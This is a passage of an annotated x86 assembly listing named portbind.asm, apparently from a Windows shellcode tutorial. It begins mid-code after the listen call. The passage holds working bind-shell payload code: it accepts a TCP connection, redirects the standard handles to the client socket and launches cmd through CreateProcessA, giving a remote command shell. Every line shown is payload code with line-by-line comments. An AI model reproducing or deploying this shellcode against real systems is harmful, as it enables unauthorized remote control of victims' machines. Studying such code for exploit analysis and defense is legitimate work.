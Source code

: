 ```
    push esi ;Push the file descriptor that was returned from WSASocket.
    call [ebp + 0x18] ;Call listen to begin listening on the port that was just bound to.
accept:
    push ebx ;Push 0x10 onto the stack.
    mov edx, esp ;Save the pointer to 0x10 in edx.
    sub esp, ebx ;Allocate 16 bytes of stack space for use as the output addr to the accept call.
    mov ecx, esp ;Save the pointer to the output buffer in ecx.
    push edx ;Push the addrlen argument as the pointer to the 0x10 on the stack.
    push ecx ;Push text addr argument as the pointer to the output struct sockaddr in on the stack
    push esi ;Push the file descriptor that was returned by WSASocket.
    call [ebp + 0x1c] ;Call accept and wait for a client connection to arrive. The client connection will be used for the redirected output from the command interpreter.
    mov esi, eax ;Save the client file descriptor in esi.
initialize_process:
    xor ecx, ecx ;Zero ecx.
    mov cl, 0x54 ;Set the low order byte of ecx to 0x54 which will be used to represent the size of the STARTUPINFO and PROCESS INFORMATION structures on the stack.
    sub esp, ecx ;Allocate stack space for the two structures.
    mov edi, esp ;Set edi to point to the STARTUPINFO structure.
    push edi ;Preserve edi on the stack as it will be modified by the following instructions.
zero_structs:
    xor eax, eax ;Zero eax to for use with stosb to zero out the two structures.
    rep stosb ;Repeat storing zero at the buffer starting at edi until ecx is zero.
    pop edi ;Restore edi to its original value.
initialize_structs:
    mov byte[edi], 0x44 ;Set the cb attribute of STARTUPINFO to 0x44 (the size of the structure).
    inc byte[edi + 0x2d] ;Set the STARTF USESTDHANDLES flag to indicate that the hStdInput, hStdOutput, and hStdError attributes should be used.
    push edi ;Preserve edi again as it will be modified by the stosd.
    mov eax, esi ;Set eax to the client file descriptor that was returned by accept
    lea edi, [edi + 0x38] ;Load the effective address of the hStdInput attribute in the STARTUPINFO structure.
    stosd ;Set the hStdInput attribute to the file descriptor returned from accept.
    stosd ;Set the hStdOutput attribute to the file descriptor returned from accept.
    stosd ;Set the hStdError attribute to the file descriptor returned from accept.
    pop edi ;Restore edi to its original value.
execute_process:
    xor eax, eax ;Zero eax for use with passing zerod arguments.
    lea esi, [edi + 0x44] ;Load the effective address of the PROCESS INFORMATION structure into esi.
    push esi ;Push the pointer to the lpProcessInformation structure.
    push edi ;Push the pointer to the lpStartupInfo structure.
    push eax ;Push the lpStartupDirectory argument as NULL.
    push eax ;Push the lpEnvironment argument as NULL
    push eax ;Push the dwCreationFlags argument as 0.
    inc eax ;Increment eax to 1.
    push eax ;Push the bInheritHandles argument as TRUE due to the fact that the client needs to inherit the socket file descriptor.
    dec eax ;Decrement eax back to zero.
    push eax ;Push the lpThreadAttributes argument as NULL.
    push eax ;Push the lpProcessAttributes argument as NULL.
    push dword [ebp + 0x34] ;Push the lpCommandLine argument as the pointer to cmd.
    push eax ;Push the lpApplicationName argument as NULL.
    call [ebp + 0x08] ;Call CreateProcessA to created the child process that has its input and output redirected from and to the remote machine via the TCP connection.
exit_process:
    call [ebp + 0x0c] ;Call ExitProcess as the parent no longer needs to execute
+--------------- End portbind.asm --------------+ 
```
